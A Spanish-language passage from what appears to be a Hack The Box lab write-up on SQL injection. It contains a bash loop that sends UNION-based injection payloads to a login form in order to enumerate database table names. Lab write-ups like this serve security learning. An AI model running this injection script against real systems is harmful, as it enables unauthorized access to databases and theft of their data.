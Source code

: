 ![](/assets/img/commons/SQLI/sql20.png)

Sabemos que information_schema viene por defecto cuando creas una base de datos pero seguido esta una llamada main por lo tanto la base de datos a la cual le inyectaré las querys será main

> Importante ; jugar con limit para una buena enumeración y limitar nuestro contenido aqui me crearé un script rápido 

### Enumerando Tablas 

No tengo mucha información , sin embargo con el limit me da mas tablas asi que me creo un script en bash rápido para enumerarlas  rápido y pueda llegar a una tabla interesante 

```bash
for i in $(seq 0 100); do echo "Numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=droix%40htb.local' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=test12345" | grep "Welcome" | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done
``` 
![](/assets/img/commons/SQLI/sql21.png)
